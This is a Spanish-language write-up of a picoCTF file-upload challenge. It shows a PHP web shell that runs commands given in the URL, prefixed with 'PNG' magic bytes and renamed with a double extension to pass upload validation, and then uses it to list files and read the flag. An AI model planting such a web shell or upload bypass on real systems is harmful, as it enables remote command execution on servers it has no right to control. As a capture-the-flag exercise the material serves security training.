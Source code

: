 ## Descripción
I found a web app that can help process images: PNG images only!Try it [here](http://atlas.picoctf.net:52628/)!
## Solución
aqui tenemos una pagina para procesar imagenes a una app con dos botones uno para seleccionar un archivo y el otro para cargarlo a la pagina.

con la url nos vamos a robots para ver las carpetas y esto encontramos.
```
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```

revisamos /instructions.txt para buscar pistas y esto encontramos
```
Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
	look for ".png" extension in the submitted files
	make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```
sabiendo que las imágenes que carguemos seran procesadas en el propio navegador intentaremos mandar una imagen pnj pero que en realidad es un codigo php.
con el siguente comando.
```php
<?php
if(isset($_GET['cmd'])){ 
    echo "<pre>";
    system($_GET['cmd']);
    echo "</pre>";
}
?>
```
la pagina parece poder subirlo pero no lo detecta como png asique hacemos una copia con la extencion png
```
┌──(diego㉿Maquina-deGuerra)-[~/Documentos]
└─$ cp webshell.php whebshell.php.png                                                                          
┌──(diego㉿Maquina-deGuerra)-[~/Documentos]
└─$ ls
webshell.php  whebshell.php.png

```
y lo cargamos a la pagina pero este nos indica el error
```
Error: The file is not a valid PNG image: 3c3f7068
```
por lo que los bites no coincides por lo que agregamos como encabezado al principio del codigo quedando de esta forma.
```c
┌──(diego㉿Maquina-deGuerra)-[~/Documentos]
└─$ cat webshell.php.png 
PNG
<?php
if(isset($_GET['cmd'])){ 
        echo "<pre>";
        system($_GET['cmd']);
        echo "</pre>";
}
?>

┌──(diego㉿Maquina-deGuerra)-[~/Documentos]
└─$ xxd webshell.php.png 
00000000: 504e 470a 3c3f 7068 700a 6966 2869 7373  PNG.<?php.if(iss
00000010: 6574 2824 5f52 4551 5545 5354 5b27 636d  et($_REQUEST['cm
00000020: 6427 5d29 2920 0a20 2020 2073 7973 7465  d'])) .    syste
00000030: 6d28 245f 5245 5155 4553 545b 2763 6d64  m($_REQUEST['cmd
00000040: 275d 293b 0a3f 3e0a                      ']);.?>.
                                
```
y lo volvemos a intentar cargar
```
File uploaded successfully and is a valid PNG file. We shall process it and get back to you... Hopefully
```
con ese mensaje sabemos que se pudo cargar asique nos dirigimos a donde se guardo nuestra imagen con codigo en /upload/webshell.php.png ademas agregamos ?=cmd para que funcione el comando en la url.
![[Pasted image 20250930144223.png]]
ese error nos indica que no funciono porque lo esta tratando como imagen y no como codigo php la solucion es invertir la extencion del archivo para que lo reconosca correctamente
```
┌──(diego㉿Maquina-deGuerra)-[~/Documentos]
└─$ mv webshell.php.png webshell.png.php
┌──(diego㉿Maquina-deGuerra)-[~/Documentos]
└─$ ls
webshell.php  webshell.png.php

```
y lo volvemos a cargar he intentar ejecutar al conseguirlo nos aparece el codigo y entonces agregamos =cmd ls ..

```
PNG 
HFQWKODGMIYTO.txt 
index.php 
instructions.txt 
robots.txt uploads
```

al ver esos archivos de tecto el mas sospechoso es el llamado HFQWKODGMIYTO.txt entonces usamos un cat ../HFQWKODGMIYTO.txt para ver su contenido.
```
PNG /* picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_9ae8fb17} */
```  
y asi encontramos la bandera
## Referencias
